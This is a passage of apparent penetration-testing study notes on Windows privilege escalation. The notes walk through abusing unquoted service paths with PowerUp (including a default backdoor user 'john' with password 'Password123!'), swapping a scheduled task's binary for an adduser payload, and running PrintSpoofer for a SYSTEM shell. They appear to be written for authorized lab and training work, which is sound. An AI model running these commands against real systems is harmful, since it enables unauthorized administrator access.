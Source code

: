 ```PowerShell
```
#### Can also do this using PowerUp.ps1
```PowerShell
powershell -ep bypass
```

```PowerShell
Get-UnquotedService
```
#### Use AbuseFunction and restart the service
```PowerShell
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```
- For -Path, we enter the same path for Current.exe
- The default behavior is to create a new local user called john with the password Password123!
#### Restart the Service
```PowerShell
Restart-Service GammaService
```
## 16.3. Abusing Other Windows Components
### 16.3.1. Scheduled Tasks
#### Three pieces of information are vital to obtain from a scheduled task to identify possible privilege escalation vectors:
1) As which user account (principal) does this task get executed?
2) What triggers are specified for the task?
3) What actions are executed when one or more of these triggers are met?
#### Display a list of all scheduled tasks
```PowerShell
schtasks /query /fo LIST /v
```
#### Display permissions on the executable file 
```PowerShell
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
```
#### Change the name of the current binary
```PowerShell
move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
```
#### Upload the adduser.exe binary and add to the target folder, changing the name to the binary for the scheduled task
```PowerShell
move .\BackendCacheCleanup.exe .\Pictures\
```
#### Wait for execution

### 16.3.2. Using Exploits
#### Check assigned privileges of current user
```PowerShell
whoami /priv
```
#### Download [PrintSpoofer64.exe](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0) and transfer to target machine
#### Run PrintSpoofer
```PowerShell
.\PrintSpoofer64.exe -i -c powershell.exe
```
### Other